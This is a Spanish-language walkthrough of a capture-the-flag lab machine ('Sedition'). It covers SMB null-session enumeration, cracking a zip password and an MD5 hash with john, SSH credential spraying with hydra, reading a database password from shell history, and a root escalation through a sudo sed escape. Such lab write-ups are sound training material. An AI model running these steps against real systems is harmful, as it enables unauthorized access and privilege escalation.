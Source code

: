 Empezamos enumerando los puertos abiertos:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.1.66
```

Y vemos el puerto 139 y 445 y el 65535, que es ssh. Iremos primero por el 445 de smb:

```
smbmap -H 192.168.1.66

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 192.168.1.66:445	Name: 192.168.1.66        	Status: NULL Session
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	backup                                            	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (Samba Server)
	nobody                                            	NO ACCESS	Home Directories
[*] Closed 1 connections                                                         
```

Vemos una carpeta llamada backup, entrando en ella, vemos un .zip llamado secretito.zip. Nos lo descargamos:

```
smbclient //192.168.1.66/backup -N

Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jul  6 19:02:53 2025
  ..                                  D        0  Sun Jul  6 20:15:13 2025
  secretito.zip                       N      216  Sun Jul  6 19:02:31 2025

		19480400 blocks of size 1024. 16257604 blocks available
smb: \> get secretito.zip
getting file \secretito.zip of size 216 as secretito.zip (42,2 KiloBytes/sec) (average 42,2 KiloBytes/sec)
smb: \> 
```

El zip esta protegido con contraseña, usaremos zip2john para intentar descubrirla:

```
zip2john secretito.zip >> hash
```

Esto nos sca el hash del archivo y con john intentaremos sacar la contraseña:

```
john --wordlist=/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sebastian        (secretito.zip/password)   
```

La contraseña es sebastian, ahora vemos que contiene el .zip
Nos da un archivo llamado password que pone: elbunkermolagollon123, una posible contraseña para entrar por ssh.

Vamos a hacer fuerza bruta por ssh.

```
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p elbunkermolagollon123 ssh://192.168.1.66 -s 65535

[DATA] attacking ssh://192.168.1.66:65535/
[65535][ssh] host: 192.168.1.66   login: cowboy   password: elbunkermolagollon123
```

Nos conectamos por ssh y ejecutamos sudo -l para la escalada de privilegios vemos que no tenemos nada.

Ejecutamos ss -tulnp y vemos que hay una base datos interna en el puer 3306 y si ejecutamos el comando history, vemos que aparece esto:

```
cowboy@Sedition:/$ history
    1  history
    2  exit
    3  mariadb
    4  mariadb -u cowboy -pelbunkermolagollon123
```

Por tanto nos conectamos a ella y vemos las tablas de la base de datos y encontramos las credenciales de debian, en formato de hash:

```
MariaDB [bunker]> SELECT * FROM users;
+--------+----------------------------------+
| user   | password                         |
+--------+----------------------------------+
| debian | 7c6a180b36896a0a8c02787eeafb0e4c |
+--------+----------------------------------+
```

Usaremos john para crakear ese hash que previamente hemos sacado que es MD5 con hash:

```
john --wordlist=/usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt hash.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (?)
```

password1 es la contraseña de debian, nos cambiamos a debian y vemos la primera flag en su home
Para la escalada de privilegos ejecutamos sudo -l:

```
sudo -l
Matching Defaults entries for debian on sedition:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User debian may run the following commands on sedition:
    (ALL) NOPASSWD: /usr/bin/sed
```

Vamos a gtfobins para explotarlo y este es el resultado:

```sudo sed -n '1e exec sh 1>&0' /etc/hosts
# bash -p
root@Sedition:/home/debian# whoami
root
root@Sedition:/home/debian# 
```

Y finalmente pwned ;)
